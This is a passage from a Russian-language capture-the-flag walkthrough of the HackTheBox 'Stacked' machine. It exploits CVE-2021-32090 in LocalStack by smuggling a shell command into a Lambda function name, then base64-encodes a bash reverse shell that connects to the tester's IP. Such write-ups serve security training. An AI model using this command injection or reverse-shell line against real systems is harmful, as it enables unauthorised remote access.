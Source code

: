 Вернулось сообщение - Hello, значит функция успешно объявлена и сохранена. Теперь мы можем попробовать эксплуатировать CVE-2021-32090:

```
$ aws lambda --endpoint=http://s3-testing.stacked.htb create-function --function-name 'func;ping -c3 10.10.16.93' --role user --handler index.handler --runtime nodejs10.x --zip-file fileb://index.zip
```

Также, чтобы это работало, нам нужно перенаправить админа на панель localstack на 8080 порте:

![](../../../../.gitbook/assets/13.png)

![](../../../../.gitbook/assets/14.png)

### Получаем реверс шелл с помощью CVE-2021-32090:

Теперь можно прокинуть реверс шелл. Заворачиваем его в base64, чтобы не было никаких проблем при передаче:

```
$ echo -n "bash -i >& /dev/tcp/10.10.16.93/9898 0>&1" | base64
```
